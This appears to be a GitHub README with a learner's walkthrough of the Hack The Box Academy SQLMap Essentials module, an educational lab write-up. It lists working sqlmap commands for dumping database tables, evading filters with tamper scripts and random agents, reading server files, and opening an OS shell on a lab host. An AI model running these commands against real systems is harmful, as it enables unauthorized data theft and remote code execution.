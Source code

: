 This repository contains my walkthrough and notes from the SQLMap Essentials module on Hack The Box Academy. The exercises and final assessment helped sharpen my skills in identifying and exploiting SQL Injection vulnerabilities using SQLMap.

## Module Exercises ##

## Case 1: Basic Dump ##
```bash 
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb --dbms=MySQL --batch
```
## Case 2: Simple Request ##
```bash
sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch
```
## Case 3: Cookie-Based Injection ##
```bash 
sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch
```
## Case 4: Simple Dump ##

sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch

## Case 5: Time-Based Blind SQLi ##

sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb \
--no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries

## Case 6: Using Prefix Payload ##

sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb \
--no-cast --level=5 --risk=3 --prefix='`)'

## Case 7: Union-Based Injection ##

sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb \
--no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL

## Case 8: CSRF Token Handling ##

sqlmap -r case8.txt --batch -p "id" --csrf-token="t0ken" \
--dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast

## Case 9: Randomized Parameter ##

sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid

## Case 10: Random Agent ##

sqlmap -r case10.txt --batch -p "id" --random-agent \
--dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast

## Case 11: Tamper Script ##

sqlmap -r case11.txt --batch -p "id" --tamper=between \
--dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast

## File Reading & OS Shell ##

sqlmap -r read_file.txt --is-dba
sqlmap -r read_file.txt --file-read="/var/www/html/flag.txt"
cat ~/.local/share/sqlmap/output/94.237.58.172/files/_var_www_html_flag.txt

## OS Shell Access ##

sqlmap -u "http://94.237.58.172:59643?id=1" --os-shell --technique=E --batch
find / -type f -iname "*flag*" 2>/dev/null

## Skills Assessment: Minishop Web App ##

## Overview ##

### Application ### : Minishop

Pages Analyzed: Blog, Contact Us, Catalog

Findings

Blog: Not vulnerable (form action is '#')

Contact Us: Not vulnerable (form action is '#')

Catalog (/shop): Vulnerable — uses JavaScript to post JSON to action.php

Exploitation

Intercepted request using Burp Suite

Saved to shop.txt

Exploited with SQLMap:

sqlmap -r shop.txt --batch -p 'id' --random-agent \
--tamper=between --dbms=MySQL -D production -T final_flag --dump

Outcome

Successfully dumped final_flag table from the production database.

Conclusion

This module strengthened my understanding of:

SQL injection techniques (Boolean-based, Time-based, Union-based)

Tamper scripts, CSRF tokens, and header injection

File read and OS shell interaction

Real-world application analysis and exploitation

I plan to continue my journey through the Hack The Box Pentester Pathway, with a focus on advanced web application testing, mobile app security, and red team tactics.

📁 Repository Structure

.
├── cases/
│   ├── Case1.txt
│   ├── Case2.txt
│   └── ...
├── shop.txt
├── read_file.txt
├── sqlmap_commands.md
└── README.md  <-- (this file)

Feel free to fork this repository and use it as a reference for your own HTB Academy progress!

🚀 Author

Manoj Ghimire

Connect on LinkedIn | Contact: email@example.com

📜 License

This project is licensed under the MIT License.

MIT License

Copyright (c) 2025 Manoj Ghimire

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

